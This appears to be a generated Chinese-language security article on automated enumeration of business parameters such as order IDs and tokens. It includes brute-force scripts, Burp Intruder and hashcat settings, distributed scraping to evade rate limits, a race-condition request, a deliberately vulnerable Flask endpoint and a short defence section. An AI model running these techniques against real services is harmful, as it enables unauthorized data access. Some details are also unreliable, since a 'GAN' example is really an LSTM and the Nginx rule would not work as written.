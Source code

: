 

# 业务参数遍历自动化防护的攻击技术深度解析

## 一、技术原理与实现机制
### 1.1 核心攻击原理
业务参数遍历自动化攻击基于Web应用对业务参数验证不严的缺陷，通过程序化生成/探测有效参数值，实现数据窃取或权限突破。其核心在于识别应用中的可枚举参数并建立有效字典库，典型攻击流程如下：

1. 参数识别：通过流量分析定位敏感业务参数（如order_id=、user_token=）
2. 模式分析：确定参数编码规则（数值递增、时间戳、哈希值等）
3. 载荷生成：根据规则构建自动化测试用例
4. 结果验证：分析响应差异识别有效数据

底层实现关键技术：
- 多线程调度：Python concurrent.futures.ThreadPoolExecutor
- 请求去重：Bloom Filter算法优化
- 智能反馈：基于正则的响应内容差异分析（如200响应码+特定JSON结构）

### 1.2 参数加密与逆向
高级攻击者会针对加密参数进行逆向处理：
```python
# 示例：时间戳型参数爆破
import time, hashlib

def generate_encrypted_param():
    timestamp = int(time.time()*1000)
    secret = hashlib.md5(f"salt_{timestamp}".encode()).hexdigest()[:8]
    return f"token={timestamp}|{secret}"
```

## 二、攻击手法与高级变种
### 2.1 基础攻击类型
| 攻击类型       | 特征                          | 检测难点              |
|----------------|-------------------------------|---------------------|
| 数值型遍历     | order_id=1001→1002→1003       | 增量模式识别         |
| 哈希型参数     | user_token=a3fde5b7          | 哈希长度/字符集分析  |
| 时间戳型       | timestamp=1625000000         | 时间窗口有效性验证   |
| 复合型参数     | id=MQ==&sign=sha256(id+salt) | 多参数关联验证       |

### 2.2 高级利用技巧
#### 2.2.1 分布式参数遍历
通过多节点协作绕过频率限制：
```bash
# 使用Kubernetes进行分布式任务分发
kubectl create job --image=scraper:v1 --args="--range 10000-20000"
```

#### 2.2.2 机器学习辅助生成
基于GAN网络的参数生成模型：
```python
from tensorflow.keras.layers import LSTM, Dense

model = Sequential()
model.add(LSTM(128, input_shape=(seq_length, vocab_size)))
model.add(Dense(vocab_size, activation='softmax'))
model.compile(loss='categorical_crossentropy', optimizer='adam')
```

#### 2.2.3 条件竞争遍历
结合业务逻辑漏洞的混合攻击：
```
POST /transfer HTTP/1.1
Content-Type: application/json

{
  "from_user": "attacker",
  "to_user": "victim",
  "amount": 1000,
  "request_id": "{{randstr(8)}}"
}
```

## 三、实战演练环境搭建
### 3.1 漏洞环境构建
使用Docker部署测试靶场：
```bash
docker run -d -p 8080:80 vulnapp/business-param-breach:1.2
```

典型漏洞接口示例：
```python
# Flask示例漏洞代码
@app.route('/api/order')
def get_order():
    order_id = request.args.get('id')
    return Order.query.filter_by(id=order_id).first().serialize()
```

### 3.2 自动化攻击演示
#### 3.2.1 基础数值遍历
使用Burp Intruder配置：
```
GET /api/user?id=§num§ HTTP/1.1
Payload类型：Numbers（1-10000，步长1）
```

#### 3.2.2 高级哈希破解
使用Hashcat进行GPU加速破解：
```bash
hashcat -m 1400 -a 3 ?a?a?a?a --increment --increment-min=4
```

#### 3.2.3 时间窗口攻击
Python自动化脚本示例：
```python
import requests
from datetime import datetime, timedelta

base_time = int(datetime.now().timestamp())
for offset in range(-600, 600):
    target_time = base_time + offset
    response = requests.get(f"/api/data?t={target_time}")
    if "success" in response.text:
        print(f"Valid timestamp: {target_time}")
        break
```

## 四、防护对抗技术
### 4.1 攻击特征检测
Nginx日志监控规则示例：
```nginx
location /api {
    access_log /var/log/nginx/api.log sequence_scan;
    
    # 检测参数数值突变
    if ($arg_id ~* "\d{4,}") {
        set $scan_score "${scan_score}+10";
    }
    
    if ($scan_score >= 20) {
        return 403;
    }
}
```

### 4.2 动态令牌防御
基于时间的动态令牌生成方案：
```java
public String generateSecureToken(String param) {
    long timeWindow = System.currentTimeMillis() / 30000;
    String dynamicSalt = HmacUtils.hmacSha256Hex("secret", timeWindow);
    return HmacUtils.hmacSha256Hex(param, dynamicSalt);
}
```

## 五、附录：工具链配置
| 工具名称       | 使用场景                     | 关键参数                     |
|----------------|------------------------------|----------------------------|
| Burp Intruder  | 基础参数遍历                 | Pitchfork攻击模式           |
| Param Miner    | 隐藏参数发现                 | --skip-static              |
| Arjun          | 多参数组合攻击               | -t 5 --passive             |
| Turbo Intruder | 高性能并发攻击               | concurrentConnections=50   |

本文档详细阐述了业务参数遍历攻击的技术本质与实践方法，重点强调了自动化攻击中的模式识别、资源调度和反检测机制。防御方应结合动态令牌、行为分析等多维度防护策略，构建纵深防御体系。

---

*文档生成时间: 2025-03-12 21:33:38*
